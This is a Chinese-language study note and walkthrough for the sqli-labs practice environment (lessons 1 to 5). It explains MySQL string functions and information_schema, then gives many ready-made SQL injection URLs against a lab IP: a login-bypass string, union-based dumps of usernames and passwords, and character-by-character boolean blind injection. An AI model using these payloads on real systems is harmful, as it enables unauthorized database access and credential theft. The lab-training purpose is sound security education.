# SQL注入的笔记  

操作系统Centos6，安装`apache`、`php`就可以了


# 环境启动方式

* docker-compose build
* docker-compose up -d

简单的搭建了环境后面可能还需要调整  

## 初始化  

点击`Setup/reset Database for labs`



## 基础知识  

### 系统函数  

```
version()——MySQL 版本  
user()——数据库用户名
database()——数据库名
@@datadir——数据库路径
@@version_compile_os——操作系统版本
```

### 字符串连接函数  

[函数具体介绍](http://www.cnblogs.com/lcamry/p/5715634.html)


`concat(str1,str2,...)`//把所有字段值链接成一个

```
mysql> select username,password from users limit 1;
+----------+----------+
| username | password |
+----------+----------+
| Dumb     | Dumb     |
+----------+----------+
1 row in set (0.00 sec)

mysql> select concat(username,password) from users limit 1;
+---------------------------+
| concat(username,password) |
+---------------------------+
| DumbDumb                  |
+---------------------------+
1 row in set (0.00 sec)
```

`concat_ws(separator,str1,str2,.....)`//含有分隔符的连接字符串  

```
mysql> select concat_ws(',',username,password) from users limit 1;
+----------------------------------+
| concat_ws(',',username,password) |
+----------------------------------+
| Dumb,Dumb                        |
+----------------------------------+
1 row in set (0.01 sec)
```

`group_concat(str1,str2)`//在concat的基础上每行用逗号分隔

```
mysql> select group_concat(username,password) from users;
+---------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------+
| group_concat(username,password)
                                                                              |
+---------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------+
| DumbDumb,AngelinaI-kill-you,Dummyp@ssword,securecrappy,stupidstupidity,supermangenious,batmanmob!l
e,adminadmin,admin1admin1,admin2admin2,admin3admin3,dhakkandumbo,admin4admin4 |
+---------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

### 一般用于尝试的语句

`--+可以用#替换,url 提交过程中 Url 编码后的#为%23`

`--(空格)、#`  是sql语句的注释语句

```
select group_concat(username,password) from users;-- as;
select group_concat(username,password) from users;#as;
select group_concat(username,password) from users;
//这三句效果一样
```

```
or 1=1--+
' or 1=1--+
" or 1=1--+
) or 1=1--+
') or 1=1--+
") or 1=1--+
")) or 1=1--+
```

一般代码为：

> $id=$\_GET['id'];  
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";

`前面的引号用引号闭合，后面的引号注释掉(-- 、#)`  

### unions操作符的介绍  

union操作符用于合并两个或多个SELECT语句的结果,如果前面一个为空那么后面就可以被我控制输出了

`mysql> select username from users union select password from users;`

### sql中的逻辑运算  

```
mysql> select username,password from users where id=1 and 1=1;
+----------+----------+
| username | password |
+----------+----------+
| Dumb     | Dumb     |
+----------+----------+
1 row in set (0.00 sec)

mysql> select username,password from users where id=1;

+----------+----------+
| username | password |
+----------+----------+
| Dumb     | Dumb     |
+----------+----------+
1 row in set (0.00 sec)
```

万能密码`1' or 1=1#`

sql:`Select * from admin where username=’admin’ and password=’’or 1=1#’`  




```
select * from users where id=1 and 1=1;
select * from users where id=1 && 1=1;
select * from users where id=1 & 1=1;
```

1和2是一样的，都是`id=1并且1=1`

3的意思是id=1条件与1进行&位操作,id=1被当作true,与1进行&运算结果还是1,再进行=操作,1=1,还是1(ps:&的优先级大于=)


### 默认数据库`information_schema`

因为我们注入基本都是通过过这个数据库得到重要数据的先来了解一下

```
mysql> use information_schema;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> show tables;
+---------------------------------------+
| Tables_in_information_schema          |
+---------------------------------------+
| CHARACTER_SETS                        |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMN_PRIVILEGES                     |
| ENGINES                               |
| EVENTS                                |
| FILES                                 |
| GLOBAL_STATUS                         |
| GLOBAL_VARIABLES                      |
| KEY_COLUMN_USAGE                      |
| PARTITIONS                            |
| PLUGINS                               |
| PROCESSLIST                           |
| PROFILING                             |
| REFERENTIAL_CONSTRAINTS               |
| ROUTINES                              |
| SCHEMATA                              |
| SCHEMA_PRIVILEGES                     |
| SESSION_STATUS                        |
| SESSION_VARIABLES                     |
| STATISTICS                            |
| TABLES                                |
| TABLE_CONSTRAINTS                     |
| TABLE_PRIVILEGES                      |
| TRIGGERS                              |
| USER_PRIVILEGES                       |
| VIEWS                                 |
+---------------------------------------+
28 rows in set (0.00 sec)

mysql> desc tables;
+-----------------+---------------------+------+-----+---------+-------+
| Field           | Type                | Null | Key | Default | Extra |
+-----------------+---------------------+------+-----+---------+-------+
| TABLE_CATALOG   | varchar(512)        | YES  |     | NULL    |       |

| TABLE_SCHEMA    | varchar(64)         | NO   |     |         |       |
| TABLE_NAME      | varchar(64)         | NO   |     |         |       |
| TABLE_TYPE      | varchar(64)         | NO   |     |         |       |
| ENGINE          | varchar(64)         | YES  |     | NULL    |       |
| VERSION         | bigint(21) unsigned | YES  |     | NULL    |       |
| ROW_FORMAT      | varchar(10)         | YES  |     | NULL    |       |
| TABLE_ROWS      | bigint(21) unsigned | YES  |     | NULL    |       |
| AVG_ROW_LENGTH  | bigint(21) unsigned | YES  |     | NULL    |       |
| DATA_LENGTH     | bigint(21) unsigned | YES  |     | NULL    |       |
| MAX_DATA_LENGTH | bigint(21) unsigned | YES  |     | NULL    |       |
| INDEX_LENGTH    | bigint(21) unsigned | YES  |     | NULL    |       |
| DATA_FREE       | bigint(21) unsigned | YES  |     | NULL    |       |
| AUTO_INCREMENT  | bigint(21) unsigned | YES  |     | NULL    |       |
| CREATE_TIME     | datetime            | YES  |     | NULL    |       |
| UPDATE_TIME     | datetime            | YES  |     | NULL    |       |
| CHECK_TIME      | datetime            | YES  |     | NULL    |       |
| TABLE_COLLATION | varchar(32)         | YES  |     | NULL    |       |
| CHECKSUM        | bigint(21) unsigned | YES  |     | NULL    |       |
| CREATE_OPTIONS  | varchar(255)        | YES  |     | NULL    |       |
| TABLE_COMMENT   | varchar(80)         | NO   |     |         |       |
+-----------------+---------------------+------+-----+---------+-------+
21 rows in set (0.00 sec)

mysql> select table_name from information_schema.tables where table_schema = "security";
+------------+
| table_name |
+------------+
| emails     |
| referers   |
| uagents    |
| users      |
+------------+
4 rows in set (0.00 sec)
```

Mysql 有一个系统数据库 information_schema,存储着所有的数据库的相关信息  

我们利用该表可以进行一次完整的注入。以下为一般的流程:  

```
猜数据库
select schema_name from information_schema.schemata
猜某库的数据表
select table_name from information_schema.tables where table_schema=’xxxxx’
猜某表的所有列
Select column_name from information_schema.columns where table_name=’xxxxx’
获取某列的内容
Select *** from ****
```  

```
mysql> select schema_name from information_schema.schemata;
+--------------------+
| schema_name        |
+--------------------+
| information_schema |

| challenges         |
| mysql              |
| security           |
| test               |
| testdb             |
+--------------------+
6 rows in set (0.00 sec)

mysql> select table_name from information_schema.tables where table_schema="security";
+------------+
| table_name |

+------------+
| emails     |
| referers   |
| uagents    |
| users      |
+------------+
4 rows in set (0.00 sec)

mysql> select column_name from information_schema.columns where table_name="users";
+-------------+

| column_name |
+-------------+
| id          |
| username    |
| password    |
+-------------+
3 rows in set (0.00 sec)

mysql> select username from users;
+----------+
| username |

+----------+
| Dumb     |
| Angelina |
| Dummy    |
......

```


## Basic Challenges

基础练习一共22个课程  

### Less-1-GET - Error based - Single quotes-String

`http://10.101.177.100:9990/Less-1/?id=1`

`http://10.101.177.100:9990/Less-1/?id=1'`



`http://10.101.177.100:9990/Less-1/?id=1'--+`



`http://10.101.177.100:9990/Less-1/?id=1%27-- a`



如果`-- `这样后面的空格会被去掉，所以要用`--+和-- 1`  

`http://10.101.177.100:9990/Less-1/?id=1' order by 3--+`



`http://10.101.177.100:9990/Less-1/?id=1' order by 4--+`



`order by`是按照哪一个列名进行排序  

```
mysql> select * from users order by 2;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+

|  8 | admin    | admin      |
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 14 | admin4   | admin4     |
|  2 | Angelina | I-kill-you |
|  7 | batman   | mob!le     |
| 12 | dhakkan  | dumbo      |
|  1 | Dumb     | Dumb       |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
+----+----------+------------+
13 rows in set (0.00 sec)
```

当超过的时候就会报错，所以就得出一共多少列，结合`union`查询  

`http://10.101.177.100:9990/Less-1/?id=-1' union select 1,2,3--+`

注意这里改成了`-1`，因为这里只是取出首行数据，得让前面的查询变成空的。



`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,version(),3--+`



`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,database(),3--+`



`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,@@datadir,3--+`



`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,@@version_compile_os,3--+`



`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,user(),3--+`



`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,group_concat(schema_name),3 from information_schema.schemata--+`



`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables where table_schema="security"--+`



`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%22users%22--+`



`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,group_concat(username),3%20from%20users--+`



`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,group_concat(password),3%20from%20users--+`



这样一个流程就走完了

### Less-2-GET - Error based - Intiger based

这个是既没有`'`、`"`、`')`、`")`包围的纯整数型查询  

`$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";`

`http://10.101.177.100:9990/Less-2/?id=1'`



`http://10.101.177.100:9990/Less-2/?id=1 order by 4--+`



后面步骤都是一样的  

```
数据库
http://10.101.177.100:9990/Less-2/?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata--+
表
http://10.101.177.100:9990/Less-2/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="security"--+
列
http://10.101.177.100:9990/Less-2/?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users"--+
数据
http://10.101.177.100:9990/Less-2/?id=-1%20union%20select%201,username,password%20from%20users%20limit%201,2--+
```

### Less-3-GET - Error based - Single quotes with twist-string

`http://10.101.177.100:9990/Less-3/?id=1'`



`http://10.101.177.100:9990/Less-3/?id=1%27)--+`



后面步骤都是一样的  

### Less-4-GET - Error based - Double Quotes - String

`http://10.101.177.100:9990/Less-4/?id=1%22`  

`http://10.101.177.100:9990/Less-4/?id=1%22)--+`

`http://10.101.177.100:9990/Less-4/?id=-1%22) union select 1,2,group_concat(schema_name) from information_schema.schemata--+`



`http://10.101.177.100:9990/Less-4/?id=-1%22) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="security"--+`



`http://10.101.177.100:9990/Less-4/?id=-1%22) union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users"--+`



`http://10.101.177.100:9990/Less-4/?id=-1%22)%20union%20select%201,2,group_concat(username)%20from%20users--+`



`http://10.101.177.100:9990/Less-4/?id=-1%22)%20union%20select%201,2,group_concat(password)%20from%20users--+`



### GET - Double Injection - Single Quotes - String

依然会报错，但是页面没有回显，那这里就用到了`盲注`，不回显的注入只能一个一个字符去猜解  

  * 基于布尔盲注
  * 基于时间盲注
  * 基于报错盲注

#### 基于布尔SQL盲注----------构造逻辑判断

一个一个字符的猜解过程中要用到截取字符串的函数  

常用的三个函数`mid()`、`substr()`、`left()`  

`mid()`函数用于得到一个字符串的一部分:`MID(column_name,start[,length])`

```
mysql> select mid('1234',2,3);
+-----------------+
| mid('1234',2,3) |
+-----------------+
| 234             |
+-----------------+
1 row in set (0.00 sec)

mysql> select mid(username,1,1) from users limit 0,1;
+-------------------+
| mid(username,1,1) |
+-------------------+
| D                 |
+-------------------+
1 row in set (0.00 sec)

mysql> select mid(username,2,1) from users limit 0,1;
+-------------------+
| mid(username,2,1) |
+-------------------+
| u                 |
+-------------------+
1 row in set (0.00 sec)

mysql> select mid(database(),1,1);
+---------------------+
| mid(database(),1,1) |
+---------------------+
| s                   |
+---------------------+
1 row in set (0.00 sec)
```

从第几个数字开始截取几个数字，那么截取一个数字就是`mid(some_name,n,1)`

所以我们这里就可以`http://10.101.177.100:9990/Less-5/?id=-1%27%20union%20select%201,2,mid(database(),1)--+`

这里如果有回显那么应该会返回，但是没有。但是如果我们让他报错呢？  

`http://10.101.177.100:9990/Less-5/?id=-1%27%20union%20select%201,2,len(mid(database(),1))--+`



这里就看到了报错，因为`len()`函数并不存在

```
mysql> select len(mid(database(),1));

ERROR 1305 (42000): FUNCTION security.len does not exist
```

`http://10.101.177.100:9990/Less-5/?id=-1%27%20union%20select%201,2,mid((select%20schema_name%20from%20information_schema.schemata%20limit%200,1),1,1)%3E%27h%27--+`



```
mysql> select mid((select schema_name from information_schema.schemata limit 0,1),1,1)>'h';
+------------------------------------------------------------------------------+
| mid((select schema_name from information_schema.schemata limit 0,1),1,1)>'h' |
+------------------------------------------------------------------------------+
|                                                                            1 |
+------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> select mid((select schema_name from information_schema.schemata limit 0,1),1,1)>'i';
+------------------------------------------------------------------------------+
| mid((select schema_name from information_schema.schemata limit 0,1),1,1)>'i' |
+------------------------------------------------------------------------------+
|                                                                            0 |
+------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

`substr()`函数用于得到一个字符串的一部分:`SUBSTR(str,pos,len);`

```
mysql> select 1,2,substr(database(),1,1);
+---+---+------------------------+
| 1 | 2 | substr(database(),1,1) |

+---+---+------------------------+
| 1 | 2 | s                      |
+---+---+------------------------+
1 row in set (0.00 sec)

mysql> select 1,2,substr(database(),2,1);
+---+---+------------------------+
| 1 | 2 | substr(database(),2,1) |
+---+---+------------------------+
| 1 | 2 | e                      |
+---+---+------------------------+
1 row in set (0.00 sec)

mysql> select 1,2,substr(database(),2);
+---+---+----------------------+
| 1 | 2 | substr(database(),2) |
+---+---+----------------------+
| 1 | 2 | ecurity              |
+---+---+----------------------+
1 row in set (0.00 sec)
```

可见`substr()`效果和`mid()`效果是一模一样的

`left()`字符串从左边第一个到指定位置的字符串

```
mysql> select left(database(),1);
+--------------------+

| left(database(),1) |
+--------------------+
| s                  |
+--------------------+
1 row in set (0.00 sec)

mysql> select left(database(),2);
+--------------------+
| left(database(),2) |
+--------------------+
| se                 |
+--------------------+
1 row in set (0.00 sec)

mysql> select left(database(),3);
+--------------------+
| left(database(),3) |
+--------------------+
| sec                |
+--------------------+
1 row in set (0.00 sec)
```

可见`left()`函数和初始位置是1的`substr()`、`mid()`效果是一样的

```
mysql> select substr(database(),1,1);
+------------------------+
| substr(database(),1,1) |
+------------------------+
| s                      |

+------------------------+
1 row in set (0.00 sec)

mysql> select substr(database(),1,2);
+------------------------+
| substr(database(),1,2) |
+------------------------+
| se                     |
+------------------------+
1 row in set (0.00 sec)

mysql> select substr(database(),1,3);
+------------------------+
| substr(database(),1,3) |
+------------------------+
| sec                    |
+------------------------+
1 row in set (0.00 sec)
```

看个人喜好，我可能比较喜欢更改`substr()`和`mid()`函数的其实位置来判断

`ord()`函数返回字符串第一个字符的ASCII值

```
mysql> select ord(substr(database(),1,3));
+-----------------------------+
| ord(substr(database(),1,3)) |
+-----------------------------+
|                         115 |
+-----------------------------+
1 row in set (0.06 sec)


mysql> select ord(substr(database(),1,2));
+-----------------------------+
| ord(substr(database(),1,2)) |
+-----------------------------+
|                         115 |
+-----------------------------+
1 row in set (0.00 sec)

mysql> select ord(substr(database(),1,1));
+-----------------------------+
| ord(substr(database(),1,1)) |
+-----------------------------+
|                         115 |
+-----------------------------+
1 row in set (0.00 sec)
```

可见只是第一个字符`s`的ascii码值

`ascii()`函数等同于`ord()`函数

```
mysql> select ascii(substr(database(),1,1));
+-------------------------------+
| ascii(substr(database(),1,1)) |
+-------------------------------+
|                           115 |
+-------------------------------+
1 row in set (0.00 sec)


mysql> select ascii(substr(database(),1,2));
+-------------------------------+
| ascii(substr(database(),1,2)) |
+-------------------------------+
|                           115 |
+-------------------------------+
1 row in set (0.00 sec)
```

`regexp正则注入`

```
mysql> select database() regexp '^se';
+-------------------------+
| database() regexp '^se' |
+-------------------------+
|                       1 |
+-------------------------+

1 row in set (0.00 sec)

mysql> select database() regexp '^[a-z]';
+----------------------------+
| database() regexp '^[a-z]' |
+----------------------------+
|                          1 |
+----------------------------+
1 row in set (0.00 sec)

mysql> select database() regexp '^ec';
+-------------------------+
| database() regexp '^ec' |
+-------------------------+
|                       0 |
+-------------------------+
1 row in set (0.00 sec)
```

那么回到起点，我们测试一下基于布尔的sql注入要怎么做

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=1--+`



`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=2--+`


说明只要控制2是1那就可以，并且我们前面说了很多查询得出的结果都有1

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20schema_name%20from%20information_schema.schemata%20limit%200,1),1,1)=%27i%27)--+`



`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20schema_name%20from%20information_schema.schemata%20limit%200,1),1,1)=%27a%27)--+`


显然这样就判断出数据库的第一个字母是`i`

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20schema_name%20from%20information_schema.schemata%20limit%200,1),2,1)=%27n%27)--+`



第二个字母是`n`

不知道第一个数据库的长度？看看下面

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20schema_name%20from%20information_schema.schemata%20limit%200,1))=18)--+`



`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20schema_name%20from%20information_schema.schemata%20limit%200,1))=17)--+`



第二个数据库只需要更改`limit 0,1`为`limit 1,1`

不知道有多少个数据库？看看下面  

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20schema_name%20from%20information_schema.schemata%20limit%206,1))%3E0)--+`



`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20schema_name%20from%20information_schema.schemata%20limit%205,1))%3E0)--+`



通过`limit`更改检测的数据库，`>`0表示当数据库名称长度大于0的时候表示数据库存在，如果`>0`不是1那么就说明数据库不存在，这个时候就知道一共有多少个数据库了，这里的数据库个数是`6`

现在就可以得到所有的数据库名称了，同理得到某数据库多少个表

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%200,1))%3E0)--+`

第一个表的长度大于0



```
mysql> select table_name from information_schema.tables where table_schema='security';
+------------+
| table_name |
+------------+
| emails     |
| referers   |
| uagents    |
| users      |
+------------+
4 rows in set (0.00 sec)
```

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%203,1))%3E0)--+`



`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%204,1))%3E0)--+`



显然`security`数据库一共有4个表

```
mysql> select table_name from information_schema.tables where table_schema='security' limit 3,1;
+------------+
| table_name |
+------------+
| users      |
+------------+
1 row in set (0.00 sec)

mysql> select table_name from information_schema.tables where table_schema='security' limit 4,1;
Empty set (0.00 sec)

mysql> select table_name from information_schema.tables where table_schema='security';
+------------+
| table_name |
+------------+
| emails     |
| referers   |
| uagents    |
| users      |
+------------+
4 rows in set (0.00 sec)
```

然后用同样的方式获得每一个表的字符长度和判断字符分别是什么

首先判断第一个表字符长度是多少

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%200,1))=6)--+`



`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%200,1))=5)--+`



可见长度就是6

知道一共有4个表，第一个表字符串长度是6，那么继续判断这个表名是什么

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%200,1),1,1)='e')--+`



`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%200,1),1,1)=%27q%27)--+`



可见第一个字母就是`e`

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%200,1),2,1)=%27m%27)--+`



第二个是`m`，同样的方法，一共6个字母

显然数据库名称，表的名称就都有了，还差列的名称

首先依然是判断一共有多少个列，然后判断每个列名是什么

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20column_name%20from%20information_schema.columns%20where%20table_name=%27users%27%20limit%200,1))%3E0)--+`



`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20column_name%20from%20information_schema.columns%20where%20table_name=%27users%27%20limit%202,1))%3E0)--+`



说明有3个列

```
mysql> select column_name from information_schema.columns where table_name='users';
+-------------+
| column_name |
+-------------+
| id          |
| username    |
| password    |
+-------------+
3 rows in set (0.00 sec)
```

判断第一个列名的长度

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20column_name%20from%20information_schema.columns%20where%20table_name=%27users%27%20limit%200,1))=2)--+`



判断第一个列名的字符串是多少

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20column_name%20from%20information_schema.columns%20where%20table_name=%27users%27%20limit%200,1),1,1)='i')--+`


`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20column_name%20from%20information_schema.columns%20where%20table_name=%27users%27%20limit%200,1),2,1)=%27d%27)--+`



这样就得到列的名字了

最后是得到数据

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20username%20from%20users%20limit%200,1))=4)--+`



第一个username的数据长度是4，接着判断字符串

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20username%20from%20users%20limit%200,1),1,1)=%27D%27)--+`



第一个字母是`D`，一步一步得到所有数据


----------------
